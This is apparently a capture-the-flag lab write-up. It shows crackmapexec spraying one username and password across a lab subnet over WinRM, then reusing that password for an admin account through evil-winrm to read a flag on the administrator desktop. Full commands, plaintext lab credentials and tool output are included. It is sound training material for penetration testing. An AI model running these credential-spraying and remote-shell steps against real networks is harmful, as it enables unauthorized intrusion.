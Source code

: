Lets see about finding what the user is

## Crackmapexec
Lets run it against winrm, ssh, ftp, smb and etc

```
crackmapexec winrm 10.10.110.0/24 -u rbiscuit -p pRdJh3RpL2

```
WINRM       10.10.110.25    5985   WS02-ATHENA      [-] WS02-Athena\rbiscuit:pRdJh3RpL2 "Bad HTTP response returned from the server. Code: 415, Content: ''"
WINRM       10.10.110.5     5985   SRV01-ARTEMIS    [+] SRV01-Artemis\rbiscuit:pRdJh3RpL2 (Pwn3d!)
WINRM       10.10.110.3     5985   DC01-PHOBOS      [-] genesis.local\rbiscuit:pRdJh3RpL2
```

I logged in and saw that rbiscuit had an admin account so lets see if there is a shared password

```
evil-winrm -u rbiscuit_adm -p pRdJh3RpL2 -i 10.10.110.5

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\rbiscuit_adm\Documents> cd ..
*Evil-WinRM* PS C:\Users\rbiscuit_adm> cd desktop
*Evil-WinRM* PS C:\Users\rbiscuit_adm\desktop> dir


    Directory: C:\Users\rbiscuit_adm\desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        3/15/2021   2:35 PM                IT Support


*Evil-WinRM* PS C:\Users\rbiscuit_adm\desktop> cd ..
*Evil-WinRM* PS C:\Users\rbiscuit_adm> cd ..
*Evil-WinRM* PS C:\Users> cd administrator
*Evil-WinRM* PS C:\Users\administrator> cd desktop
*Evil-WinRM* PS C:\Users\administrator\desktop> dir


    Directory: C:\Users\administrator\desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       12/10/2020   1:27 PM             19 flag.txt


*Evil-WinRM* PS C:\Users\administrator\desktop> cat flag.txt
GENESIS{OMG_YYY???}
*Evil-WinRM* PS C:\Users\administrator\desktop> 
```
